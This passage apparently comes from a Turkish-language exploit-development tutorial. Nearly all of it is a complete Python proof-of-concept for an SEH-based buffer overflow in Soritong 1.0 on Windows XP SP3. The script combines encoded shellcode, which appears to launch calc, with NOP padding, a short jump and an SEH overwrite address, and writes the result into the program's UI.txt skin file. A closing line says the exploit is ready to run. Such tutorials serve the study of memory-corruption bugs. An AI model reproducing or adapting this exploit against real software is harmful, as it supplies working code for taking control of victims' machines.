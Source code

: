 ```python
# Soritong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*584
nextSEH = b"\xeb\x06\x90\x90" # jump 6 byte
SEH = b"\x39\xaf\x01\x10"

exploit = padding + nextSEH + SEH + calc

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Artık exploitimiz çalışmaya hazır (:

![19](img/0x03/exploit.gif)
